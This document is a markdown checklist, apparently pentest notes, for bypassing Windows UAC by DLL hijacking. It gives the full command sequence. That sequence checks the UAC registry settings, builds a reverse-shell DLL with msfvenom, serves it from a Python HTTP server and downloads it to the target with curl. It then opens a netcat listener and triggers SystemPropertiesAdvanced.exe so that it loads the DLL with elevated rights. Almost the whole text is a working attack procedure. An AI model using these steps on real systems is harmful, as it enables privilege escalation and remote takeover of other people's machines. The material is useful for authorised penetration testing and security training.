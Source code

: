 #### Confirming UAC Status
- [ ] Confirm if UAC is enabled:
  ```shell
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
  ```
- [ ] Check UAC level:
  ```shell
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
  ```

#### System Information
- [ ] Check Windows version and build:
  ```shell
  [environment]::OSVersion.Version
  ```

#### UAC Bypass Preparation
- [ ] Review the PATH variable:
  ```shell
  cmd /c echo %PATH%
  ```
- [ ] Generate a malicious DLL using `msfvenom`:
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f dll > srrstr.dll
  ```
- [ ] Start a Python HTTP server to host the DLL:
  ```bash
  sudo python3 -m http.server 8080
  ```
- [ ] Download the DLL to the target system:
  ```shell
  curl http://<Your_IP>:8080/srrstr.dll -O "C:\Users\<Username>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
  ```

#### Testing and Execution
- [ ] Start a Netcat listener on the attack host:
  ```bash
  nc -lvnp <Your_Port>
  ```
- [ ] Test the connection by executing the DLL:
  ```shell
  rundll32 shell32.dll,Control_RunDLL C:\Users\<Username>\AppData\Local\Microsoft\WindowsApps\srrstr.dll
  ```
- [ ] Terminate any previous `rundll32` processes:
  ```shell
  tasklist /svc | findstr "rundll32"
  taskkill /PID <PID> /F
  ```
- [ ] Execute `SystemPropertiesAdvanced.exe` on the target host:
  ```shell
  C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
  ```
